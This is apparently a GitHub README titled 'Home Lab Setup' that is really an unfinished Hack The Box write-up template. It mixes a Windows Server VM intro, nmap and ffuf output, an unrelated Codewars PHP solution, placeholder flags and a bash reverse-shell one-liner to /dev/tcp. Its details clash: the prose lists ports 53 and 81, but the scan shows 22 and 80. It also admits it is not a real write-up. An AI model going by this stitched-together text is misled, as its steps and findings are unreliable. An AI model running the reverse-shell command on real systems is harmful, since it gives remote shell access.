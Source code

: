 **Title**: "Home Lab Setup"

**Author**: Tarell King

**Tools Used**: [Windows server, AD (Active Directory), xx ]

## Table of Contents
1. [Introduction](#Intro)
4. [Conclusion](#conclusion)
5. [References](#references)

## Intro
##  Setting up virtual enviorment  **Prerequsites Virtaul box or another virtualization software, windows server iso**

We begin by installig windows server in a virtual machine. 

Create a Windows 10 Virtal machine and assign the windows server iso in the storage devices.

![image](https://github.com/TarellKing/Home-Lab/assets/121117376/4f3948b9-315c-4803-a6ef-cad8ed72a8cb)





```console

┌──(tarell㉿kali)-[~]
└─$ sudo nmap -sV 10.10.11.11

Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-22 22:42 EDT
Nmap scan report for 10.10.11.11
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
```

#Enumeration

```console

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

From the above output we can see that ports, 22, 53, and 81 are the ports open. 



# Fuzzing  

Perform a sub-domain/vhost fuzzing scan on ‘*.board.htb’ using the provided IP address. To achieve this, use a wordlist of common subdomains. This wordlist will try each entry as a subdomain for ‘board.htb’. Here is the command:
```console

ffuf -w Desktop/wordlist.txt -u http://board.htb/ -H "host:FUZZ.board.htb" -H "Content-Type: application/x-www-form-urlencoded" -fs 15949 -c 

```
after fuzzing we can see that x was found 



























```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
